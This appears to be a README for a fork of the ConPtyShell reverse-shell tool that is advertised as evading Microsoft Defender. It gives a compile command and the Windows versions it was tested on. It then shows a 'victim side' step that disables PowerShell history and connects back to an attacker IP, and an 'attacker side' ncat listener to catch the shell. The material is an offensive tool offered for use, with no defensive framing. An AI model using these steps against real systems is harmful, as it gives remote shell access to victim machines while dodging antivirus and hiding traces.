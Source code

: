 # ConTtyShell
ConPtyShell Fork that Evades Microsoft Defender (as of 25/11/2024)

**Original:**

https://github.com/antonioCoco/ConPtyShell

**Compile with:**

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /platform:x64 -nologo -debug -out:ConTtyShell.exe .\ConTtyShell.cs`

**Tested on:**
* Windows Server 2016 Datacenter 10.0 x64 Build 14393
* Windows 10 22H2 x64
* Windows 11 22H2 x64


**Victim side usage example:**

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing
.\ConTtyShell.exe attacker-ip 6666
```

**Attacker side usage example:**

```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666

Or

rlwrap ncat -lvnp 6666
```

